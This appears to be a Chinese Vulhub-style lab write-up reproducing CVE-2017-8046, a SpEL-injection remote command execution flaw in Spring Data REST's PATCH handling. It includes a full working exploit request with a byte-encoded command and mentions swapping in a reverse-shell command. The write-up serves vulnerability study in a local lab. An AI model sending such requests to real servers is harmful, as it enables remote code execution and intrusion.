 # Spring Rest Data 远程命令执行漏洞（CVE-2017-8046）

Spring Data REST是一个构建在Spring Data之上，为了帮助开发者更加容易地开发REST风格的Web服务。在REST API的Patch方法中（实现[RFC6902](https://tools.ietf.org/html/rfc6902)），path的值被传入`setValue`，导致执行了SpEL表达式，触发远程命令执行漏洞。

参考链接：

- http://xxlegend.com/2017/09/29/Spring%20Data%20Rest服务器PATCH请求远程代码执行漏洞CVE-2017-8046补充分析/
- https://tech.meituan.com/Spring_Data_REST_远程代码执行漏洞%28CVE-2017-8046%29_分析与复现.html

## 环境搭建

执行如下命令启动漏洞环境：

```
docker-compose up -d
```

等待环境启动完成，然后访问`http://your-ip:8080/`即可看到json格式的返回值，说明这是一个Restful风格的API服务器。

## 漏洞复现

访问`http://your-ip:8080/customers/1`，看到一个资源。我们使用PATCH请求来修改之：

```
PATCH /customers/1 HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json-patch+json
Content-Length: 202

[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}))/lastname", "value": "vulhub" }]

```

path的值是SpEL表达式，发送上述数据包，将执行`new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}`表示的命令`touch /tmp/success`。然后进入容器`docker-compose exec spring bash`看看：

![](1.png)

可见，success成功创建。

将bytecode改成反弹shell的命令（注意：[Java反弹shell的限制与绕过方式](http://jackson.thuraisamy.me/runtime-exec-payloads.html)），成功弹回：

![](2.png)

